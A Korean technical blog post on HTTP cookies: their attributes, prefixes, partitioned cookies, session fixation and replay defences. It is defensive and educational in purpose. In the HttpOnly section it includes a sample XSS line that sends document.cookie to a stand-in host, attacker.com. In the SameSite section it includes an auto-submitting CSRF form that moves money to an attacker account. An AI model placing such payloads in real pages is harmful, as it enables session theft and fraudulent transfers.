



# HTTP Cookie Deep Dive: 웹 상태 관리의 핵심

> **작성일**: 2025년 12월 22일
> **카테고리**: Web, HTTP, Security
> **키워드**: HTTP Cookie, Session, Security, SameSite, HttpOnly, Secure

## 요약

HTTP는 본질적으로 무상태(Stateless) 프로토콜이다. Cookie는 이 무상태 프로토콜에서 상태를 유지하기 위해 1994년 Netscape에서 도입한 메커니즘이다. 이 글에서는 Cookie의 내부 동작 원리부터 보안 속성, 실무에서 마주치는 문제들과 해결 방안까지 깊이 있게 다룬다.

## Cookie의 탄생 배경

### HTTP의 무상태 특성

HTTP 프로토콜은 각 요청이 독립적이다. 서버는 이전 요청에 대한 정보를 기억하지 않는다.

```
GET /page1 HTTP/1.1
Host: example.com
(서버는 이 요청을 처리하고 잊는다)

GET /page2 HTTP/1.1
Host: example.com
(서버 입장에서 이것은 완전히 새로운 클라이언트일 수 있다)
```

이 설계는 서버 확장성 측면에서 유리하지만, 로그인 상태 유지, 장바구니 기능 등 상태가 필요한 기능 구현이 불가능하다.

### Lou Montulli의 해결책

1994년 Netscape의 엔지니어 Lou Montulli가 "Magic Cookie" 개념을 HTTP에 도입했다. 이 개념은 Unix 시스템에서 프로그램 간 데이터를 전달하는 불투명한(opaque) 데이터 조각에서 유래했다.

## Cookie 동작 메커니즘

### Set-Cookie 헤더

서버가 클라이언트에게 Cookie를 설정하는 방식이다.

```http
HTTP/1.1 200 OK
Set-Cookie: session_id=abc123; Path=/; HttpOnly; Secure; SameSite=Lax
Set-Cookie: user_preference=dark_mode; Path=/; Max-Age=31536000
```

### Cookie 헤더

클라이언트가 서버에 Cookie를 전송하는 방식이다.

```http
GET /api/user HTTP/1.1
Host: example.com
Cookie: session_id=abc123; user_preference=dark_mode
```

### 전체 흐름도



## Cookie 속성 상세 분석

### Domain과 Path

```http
Set-Cookie: token=xyz; Domain=example.com; Path=/api
```

**Domain 규칙:**
- 명시하지 않으면 Cookie를 설정한 정확한 호스트에만 전송
- `Domain=example.com` 설정 시 `sub.example.com`을 포함한 모든 서브도메인에 전송
- 상위 도메인 설정 불가 (보안상 이유)

**Path 규칙:**
- `/api` 설정 시 `/api`, `/api/users`, `/api/v1/data` 등에 전송
- `/` 설정 시 모든 경로에 전송

```javascript
// 실무 예시: API와 페이지별 Cookie 분리
// 인증 토큰 - API 경로에만
document.cookie = "auth_token=xxx; Path=/api; Secure; HttpOnly";

// UI 설정 - 전체 사이트
document.cookie = "theme=dark; Path=/";
```

### Expires와 Max-Age

```http
# 절대 시간 지정
Set-Cookie: persistent=value; Expires=Thu, 22 Dec 2026 00:00:00 GMT

# 상대 시간 지정 (초 단위)
Set-Cookie: persistent=value; Max-Age=31536000
```

| 속성 | 동작 | 우선순위 |
|------|------|----------|
| Expires | 지정된 날짜/시간에 만료 | Max-Age가 있으면 무시됨 |
| Max-Age | 지정된 초 후 만료 | 우선 적용 |
| 둘 다 없음 | 브라우저 종료 시 삭제 (Session Cookie) | - |

### HttpOnly

```http
Set-Cookie: session_id=abc123; HttpOnly
```

JavaScript에서 접근 불가:

```javascript
// HttpOnly가 설정된 Cookie는 읽을 수 없음
console.log(document.cookie); // session_id 포함되지 않음
```

XSS 공격으로부터 세션 탈취를 방어한다:

```javascript
// 공격자의 악성 스크립트
// HttpOnly 덕분에 session_id 탈취 실패
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```

### Secure

```http
Set-Cookie: auth=token123; Secure
```

HTTPS 연결에서만 Cookie 전송. HTTP 요청에서는 해당 Cookie가 포함되지 않는다.

```
https://example.com/api  → Cookie 전송됨
http://example.com/api   → Cookie 전송 안 됨
```

### SameSite (CSRF 방어의 핵심)

2016년에 도입되어 현재 모든 주요 브라우저에서 지원하는 속성이다.

```http
Set-Cookie: csrf_token=abc; SameSite=Strict
Set-Cookie: session_id=xyz; SameSite=Lax
Set-Cookie: tracking=123; SameSite=None; Secure
```

| 값 | Cross-Site 요청 시 Cookie 전송 | 사용 사례 |
|-----|-------------------------------|----------|
| Strict | 전송 안 함 | 금융, 결제 등 민감한 작업 |
| Lax | Top-level navigation (링크 클릭)만 전송 | 일반적인 세션 관리 (기본값) |
| None | 항상 전송 (Secure 필수) | 서드파티 위젯, 임베드 콘텐츠 |

**CSRF 공격 시나리오와 SameSite 방어:**

```html
<!-- attacker.com의 악성 페이지 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker_account">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit();</script>
```

SameSite=Strict 또는 Lax가 설정되어 있다면, `attacker.com`에서 `bank.com`으로의 요청에 Cookie가 포함되지 않아 공격이 실패한다.

## 실무에서 자주 발생하는 문제들

### 1. Third-Party Cookie 차단

Chrome의 Privacy Sandbox 정책으로 서드파티 Cookie가 점진적으로 차단되고 있다.

**영향받는 기능:**
- 서드파티 로그인 위젯
- 크로스 사이트 트래킹
- 임베디드 콘텐츠의 인증

**대응 방안:**

```javascript
// Storage Access API 사용
document.requestStorageAccess().then(() => {
  // 서드파티 Cookie 접근 가능
}).catch(() => {
  // 사용자가 거부하거나 브라우저가 차단
  // 대체 인증 방식 제공
});
```

### 2. SameSite=None 설정 시 주의사항

```http
# 잘못된 설정 - Secure 없이 None 사용
Set-Cookie: id=123; SameSite=None
# 브라우저가 Cookie를 거부하거나 SameSite=Lax로 처리

# 올바른 설정
Set-Cookie: id=123; SameSite=None; Secure
```

### 3. Cookie 크기 제한

RFC 6265에서 정의된 최소 요구사항:
- Cookie 당 최소 4096 bytes
- 도메인 당 최소 50개 Cookie
- 총 최소 3000개 Cookie

실제 브라우저별 제한은 다르다:

| 브라우저 | Cookie 당 크기 | 도메인 당 개수 |
|---------|---------------|--------------|
| Chrome | 4096 bytes | 180개 |
| Firefox | 4097 bytes | 150개 |
| Safari | 4096 bytes | 제한 없음 (전체 크기 제한) |

**대용량 데이터 처리:**

```javascript
// 잘못된 방식 - Cookie에 대용량 데이터 저장
document.cookie = `cart=${JSON.stringify(largeCartData)}`; // 4KB 초과 시 잘림

// 올바른 방식 - 서버 세션 또는 별도 스토리지 활용
document.cookie = "cart_id=abc123"; // ID만 저장
// 실제 데이터는 서버 세션 또는 IndexedDB에 저장
```

### 4. Cookie와 CORS

Cross-Origin 요청에서 Cookie를 전송하려면 양쪽 설정이 필요하다:

**클라이언트:**
```javascript
fetch('https://api.example.com/data', {
  credentials: 'include' // Cookie 포함
});
```

**서버:**
```http
Access-Control-Allow-Origin: https://app.example.com  # * 불가
Access-Control-Allow-Credentials: true
```

`Access-Control-Allow-Origin: *`와 `credentials: include`는 동시에 사용할 수 없다. 명시적인 Origin을 지정해야 한다.

## 보안 관점의 Cookie 설정 가이드

### 세션 Cookie 권장 설정

```http
Set-Cookie: session_id=<cryptographically-random-value>;
            Path=/;
            HttpOnly;
            Secure;
            SameSite=Lax;
            Max-Age=3600
```

### Remember Me Cookie

```http
Set-Cookie: remember_token=<signed-token>;
            Path=/;
            HttpOnly;
            Secure;
            SameSite=Strict;
            Max-Age=2592000
```

### CSRF Token Cookie

```http
Set-Cookie: csrf_token=<random-value>;
            Path=/;
            Secure;
            SameSite=Strict
            # HttpOnly 없음 - JavaScript에서 읽어서 헤더에 포함해야 함
```

## Cookie Prefixes: 추가 보안 계층

RFC 6265bis에서 도입된 Cookie Prefix는 Cookie 이름에 특수 접두사를 붙여 브라우저가 추가 보안 검증을 수행하도록 강제한다.

### __Secure- Prefix

```http
Set-Cookie: __Secure-session=abc123; Secure; Path=/
```

**브라우저 검증 조건:**
- `Secure` 속성 필수
- HTTPS 연결에서만 설정 가능

HTTP 연결이나 Secure 속성 없이 설정하려 하면 브라우저가 거부한다.

### __Host- Prefix

```http
Set-Cookie: __Host-session=abc123; Secure; Path=/
```

**브라우저 검증 조건:**
- `Secure` 속성 필수
- `Path=/` 필수 (루트 경로)
- `Domain` 속성 없어야 함 (정확한 호스트 매칭)

```http
# 거부됨 - Domain 속성 존재
Set-Cookie: __Host-session=abc; Secure; Path=/; Domain=example.com

# 거부됨 - Path가 루트가 아님
Set-Cookie: __Host-session=abc; Secure; Path=/api

# 허용됨
Set-Cookie: __Host-session=abc; Secure; Path=/
```

`__Host-` Prefix는 서브도메인 탈취 공격을 방어한다. 공격자가 `evil.example.com`을 통해 `example.com`의 Cookie를 덮어쓰는 시나리오를 원천 차단한다.

### 실무 적용 패턴

```go
// 최고 수준의 세션 보안이 필요한 경우
func SetSecureSessionCookie(w http.ResponseWriter, token string) {
    cookie := &http.Cookie{
        Name:     "__Host-session",
        Value:    token,
        Path:     "/",
        Secure:   true,
        HttpOnly: true,
        SameSite: http.SameSiteStrictMode,
    }
    http.SetCookie(w, cookie)
}
```

## CHIPS: Partitioned Cookies

Cookies Having Independent Partitioned State(CHIPS)는 서드파티 Cookie 차단 정책에 대한 대응책으로 2023년에 도입되었다.

### 문제 상황

서드파티 Cookie 차단으로 다음 시나리오가 불가능해졌다:

```
사이트 A (first-party) → 임베드된 서비스 B (third-party)
사이트 C (first-party) → 임베드된 서비스 B (third-party)

서비스 B가 Cookie를 설정하면:
- 기존: A와 C 모두에서 동일한 Cookie 공유 (크로스 사이트 트래킹 가능)
- 차단 후: Cookie 설정 자체가 불가능
```

### CHIPS 해결책

```http
Set-Cookie: __Host-session=abc123; Secure; Path=/; Partitioned
```

`Partitioned` 속성은 Cookie를 설정한 top-level 사이트별로 Cookie를 분리 저장한다:

```
사이트 A에서 서비스 B 접근 → Cookie: (A, B) 파티션에 저장
사이트 C에서 서비스 B 접근 → Cookie: (C, B) 파티션에 저장

(A, B) 파티션의 Cookie는 (C, B)에서 접근 불가
```

### 사용 사례

**결제 위젯:**
```http
# payment.example.com이 merchant-a.com에 임베드될 때
Set-Cookie: __Host-payment_session=xyz; Secure; Path=/; Partitioned; SameSite=None
```

**채팅 위젯:**
```http
# chat.service.com이 여러 고객사 사이트에 임베드될 때
Set-Cookie: __Host-chat_token=abc; Secure; Path=/; Partitioned; SameSite=None
```

### 제약 사항

- `Partitioned`는 반드시 `Secure`, `Path=/`와 함께 사용
- `__Host-` Prefix 권장
- 기존 서드파티 Cookie와 달리 크로스 사이트 상태 공유 불가

## Cookie와 브라우저 저장소의 격리 모델

### Same-Origin Policy vs Cookie의 Origin 개념

JavaScript의 Same-Origin Policy와 Cookie의 Origin 개념은 다르다:

**Same-Origin Policy (JavaScript):**
```
https://sub.example.com:443 ≠ https://example.com:443
(서브도메인이 달라도 다른 Origin)
```

**Cookie Origin:**
```
Domain=example.com 설정 시:
https://sub.example.com → Cookie 전송됨
https://other.example.com → Cookie 전송됨
(서브도메인 전체에서 Cookie 공유)
```

이 차이로 인해 발생하는 보안 문제:



**방어:**
- `__Host-` Prefix 사용 (Domain 속성 금지)
- 민감한 Cookie는 Domain 속성 미설정

### Public Suffix List

브라우저는 Public Suffix List(PSL)를 사용하여 Cookie 설정 범위를 제한한다:

```http
# 거부됨 - .com은 public suffix
Set-Cookie: tracking=123; Domain=.com

# 거부됨 - .co.uk은 public suffix
Set-Cookie: tracking=123; Domain=.co.uk

# 허용됨 - example.com은 registerable domain
Set-Cookie: tracking=123; Domain=example.com
```

**주의할 점:**
`github.io`, `herokuapp.com` 등 PaaS 도메인도 PSL에 포함되어 있어, 해당 플랫폼에서 호스팅하는 사이트 간 Cookie 공유가 불가능하다.

## Session Fixation과 Cookie 재생성

### Session Fixation 공격



### 방어: 인증 시 세션 재생성

```go
func LoginHandler(w http.ResponseWriter, r *http.Request) {
    // 1. 기존 세션 무효화
    oldSessionID, _ := r.Cookie("session_id")
    if oldSessionID != nil {
        sessionStore.Delete(oldSessionID.Value)
    }

    // 2. 인증 수행
    user, err := authenticate(r)
    if err != nil {
        http.Error(w, "Unauthorized", 401)
        return
    }

    // 3. 새 세션 생성 (핵심)
    newSessionID := generateCryptographicallySecureID()
    sessionStore.Set(newSessionID, user)

    // 4. 새 Cookie 설정
    http.SetCookie(w, &http.Cookie{
        Name:     "__Host-session",
        Value:    newSessionID,
        Path:     "/",
        Secure:   true,
        HttpOnly: true,
        SameSite: http.SameSiteStrictMode,
    })
}
```

## Cookie Replay Attack 방어

### 문제

Cookie가 탈취되면 공격자가 해당 Cookie로 무한정 요청을 재생(replay)할 수 있다.

### 방어 전략 1: 짧은 TTL + Refresh Token

```go
type SessionTokens struct {
    AccessToken  string    // 짧은 수명 (15분)
    RefreshToken string    // 긴 수명 (7일), 1회용
}

func SetTokenCookies(w http.ResponseWriter, tokens SessionTokens) {
    // Access Token - 짧은 수명
    http.SetCookie(w, &http.Cookie{
        Name:     "__Host-access",
        Value:    tokens.AccessToken,
        Path:     "/",
        MaxAge:   900, // 15분
        Secure:   true,
        HttpOnly: true,
        SameSite: http.SameSiteStrictMode,
    })

    // Refresh Token - 긴 수명, /auth/refresh에서만 전송
    http.SetCookie(w, &http.Cookie{
        Name:     "__Host-refresh",
        Value:    tokens.RefreshToken,
        Path:     "/auth/refresh",
        MaxAge:   604800, // 7일
        Secure:   true,
        HttpOnly: true,
        SameSite: http.SameSiteStrictMode,
    })
}
```

### 방어 전략 2: Token Binding

세션을 클라이언트 특성에 바인딩:

```go
type BoundSession struct {
    UserID      string
    Fingerprint string // User-Agent + Accept-Language + 기타 헤더 해시
    CreatedAt   time.Time
    LastIP      string
}

func ValidateSession(r *http.Request, session BoundSession) error {
    currentFingerprint := computeFingerprint(r)

    if session.Fingerprint != currentFingerprint {
        // 다른 환경에서의 접근 - 재인증 요구
        return ErrSessionEnvironmentMismatch
    }

    // IP가 급격히 변경된 경우 (선택적)
    if session.LastIP != getClientIP(r) {
        log.Warn("IP changed for session", session.UserID)
        // 민감한 작업 시 추가 인증 요구
    }

    return nil
}
```

## 분산 환경에서의 Session Cookie

### Sticky Session의 한계

로드 밸런서가 특정 클라이언트를 항상 같은 서버로 라우팅하는 방식:

```
Client A → (Cookie: server=node1) → Load Balancer → Node 1
Client B → (Cookie: server=node2) → Load Balancer → Node 2
```

**문제점:**
- 서버 다운 시 세션 손실
- 불균형한 부하 분산
- 스케일 다운 시 세션 마이그레이션 복잡

### Stateless Session: JWT in Cookie

```http
Set-Cookie: __Host-token=eyJhbGciOiJIUzI1NiIs...; Secure; HttpOnly; Path=/
```

**장점:**
- 서버 측 세션 저장소 불필요
- 수평 확장 용이

**단점:**
- 토큰 크기가 커서 매 요청마다 오버헤드
- 즉시 무효화 불가능 (만료 시간까지 유효)

### Hybrid: Cookie + Centralized Session Store

```go
// Redis를 이용한 분산 세션
func GetSession(sessionID string) (*Session, error) {
    data, err := redis.Get(ctx, "session:"+sessionID).Bytes()
    if err == redis.Nil {
        return nil, ErrSessionNotFound
    }
    if err != nil {
        return nil, err
    }

    var session Session
    json.Unmarshal(data, &session)
    return &session, nil
}

func SetSession(session *Session) error {
    data, _ := json.Marshal(session)
    return redis.Set(ctx,
        "session:"+session.ID,
        data,
        time.Hour, // TTL
    ).Err()
}
```

**설계 고려사항:**
- Redis Cluster 또는 Sentinel로 고가용성 확보
- 세션 데이터는 최소화 (사용자 ID + 권한 정도만)
- 민감한 데이터는 세션에 저장하지 않음

## 브라우저별 Cookie 정책 차이

### Safari의 ITP (Intelligent Tracking Prevention)

Safari는 가장 공격적인 Cookie 정책을 적용한다:

| 시나리오 | Safari 동작 |
|---------|------------|
| 서드파티 Cookie | 완전 차단 |
| 퍼스트파티 Cookie (JS 설정) | 7일 후 만료 |
| 퍼스트파티 Cookie (서버 설정) | 설정된 만료일 유지 |
| Cross-Site 트래커로 분류된 도메인 | 24시간 후 Cookie 삭제 |

**실무 영향:**
```javascript
// Safari에서 7일 후 사라짐
document.cookie = "preference=dark; max-age=31536000";
```

```http
# Safari에서 정상 동작
Set-Cookie: preference=dark; Max-Age=31536000; Secure
```

클라이언트 측에서 장기 설정을 저장해야 할 경우, `document.cookie` 대신 서버 응답의 `Set-Cookie`를 사용하거나 localStorage를 고려해야 한다.

### Firefox의 Total Cookie Protection

Firefox는 서드파티 Cookie를 "파티셔닝"하여 CHIPS와 유사하게 동작한다. 명시적인 `Partitioned` 속성 없이도 자동 적용된다.

### Chrome의 Privacy Sandbox 로드맵

Chrome은 서드파티 Cookie를 2025년까지 단계적으로 폐지할 예정이었으나, 2024년 7월 계획을 철회했다. 대신 사용자 선택권을 강화하는 방향으로 선회했다.

## 교훈

### 1. 보안 속성은 선택이 아닌 필수

HttpOnly, Secure, SameSite는 "있으면 좋은" 기능이 아니다. 설정하지 않으면 XSS, CSRF, 중간자 공격에 노출된다.

### 2. Cookie는 인증 토큰용으로 최적화되어 있다

대용량 데이터 저장, 클라이언트 전용 상태 관리에는 적합하지 않다. 각 HTTP 요청에 Cookie가 포함되므로 불필요한 데이터는 다른 저장소를 사용한다.

### 3. Cross-Site 시나리오를 항상 고려한다

서드파티 Cookie 정책 변화, SameSite 기본값 변경 등 브라우저 정책이 지속적으로 강화되고 있다. 새 기능 구현 시 Cross-Site 동작을 반드시 테스트한다.

## 참고 자료

### 공식 문서
- [RFC 6265 - HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/rfc6265)
- [RFC 6265bis (draft) - Cookie Prefixes, SameSite 등 최신 확장](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis)
- [MDN - HTTP Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

### 브라우저 정책
- [Chrome Privacy Sandbox](https://privacysandbox.com/)
- [SameSite Cookie Explained (web.dev)](https://web.dev/samesite-cookies-explained/)
- [Storage Access API](https://developer.mozilla.org/en-US/docs/Web/API/Storage_Access_API)

### 보안 가이드
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [OWASP Cross-Site Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
